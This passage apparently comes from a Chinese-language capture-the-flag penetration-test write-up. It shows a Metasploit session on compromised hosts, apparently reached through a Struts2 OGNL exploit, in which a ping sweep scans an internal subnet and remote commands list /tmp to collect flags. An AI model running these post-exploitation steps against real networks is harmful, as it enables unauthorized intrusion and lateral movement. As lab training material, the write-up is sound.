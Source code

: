 ```bash
msf6 exploit(multi/http/struts2_multi_eval_ognl) > search ping_sweep

Matching Modules
================
   #  Name                          Disclosure Date  Rank    Check  Description
   -  ----                          ---------------  ----    -----  -----------
   0  post/multi/gather/ping_sweep                   normal  No     Multi Gather Ping Sweep

Interact with a module by name or index. For example info 0, use 0 or use post/multi/gather/ping_sweep

msf6 exploit(multi/http/struts2_multi_eval_ognl) > use 0
msf6 post(multi/gather/ping_sweep) > options

Module options (post/multi/gather/ping_sweep):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       IP Range to perform ping sweep against.
   SESSION                   yes       The session to run this module on

View the full module info with the info, or info -d command.

msf6 post(multi/gather/ping_sweep) > set rhosts 192.172.84.5-254
rhosts => 192.172.84.5-254
msf6 post(multi/gather/ping_sweep) > set session 2
session => 2
msf6 post(multi/gather/ping_sweep) > run

[*] Performing ping sweep for IP range 192.172.84.5-254
[+]     192.172.84.5 host found
[+]     192.172.84.3 host found
[+]     192.172.84.4 host found
[+]     192.172.84.2 host found
[*] Post module execution completed
msf6 post(multi/gather/ping_sweep) >
```

进入会话中，查看 `/tmp` 目录，成功找到 `flag2-4`

```bash
# get flag2-4
$ sessions -c "ls /tmp" -i 6,7,8
```

```bash
得到flag2-4:
flag-{bmh76fd8ddc-29fc-45d6-5d6d-8bba0ffc10df}
flag-{bmh36f772a9-90ba-455d-66d0-58dfce9a001a}
```

#### 内层网络渗透:攻破靶标 5
